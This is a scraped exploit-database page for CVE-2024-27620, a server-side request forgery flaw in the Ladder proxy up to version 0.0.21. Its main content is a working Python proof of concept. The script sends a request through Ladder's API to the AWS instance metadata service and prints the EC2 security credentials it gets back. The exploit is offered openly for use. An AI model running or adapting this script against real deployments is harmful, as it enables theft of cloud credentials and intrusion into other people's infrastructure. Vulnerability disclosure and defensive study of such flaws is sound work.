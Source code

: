 ```yaml
---
title: Ladder 0.0.21 Server-Side Request Forgery exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177506&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-09
fetch_date: 2025-10-04T12:08:16.439797
---
```


# Ladder 0.0.21 Server-Side Request Forgery exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Ladder 0.0.21 Server-Side Request Forgery CVE-2024-27620

2024-03-08 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177506
# Exploit Title: Ladder v0.0.21 Server-side request forgery (SSRF)
# Date: 2024-01-20
# Exploit Author: @_chebuya
# Software Link: https://github.com/everywall/ladder
# Version: v0.0.1 - v0.0.21
# Tested on: Ubuntu 20.04.6 LTS on AWS EC2 (ami-0fd63e471b04e22d0)
# CVE: CVE-2024-27620
# Description: Ladder fails to apply sufficient default restrictions on destination addresses, allowing an attacker to make GET requests to addresses that would typically not be accessible from an external context. An attacker can access private address ranges, locally listening services, and cloud instance metadata APIs
import requests
import json

target_url = "http://127.0.0.1:8080/api/"
imdsv1_url = "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"

r = requests.get(target_url + imdsv1_url)
response_json = json.loads(r.text)
print(response_json["body"])
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)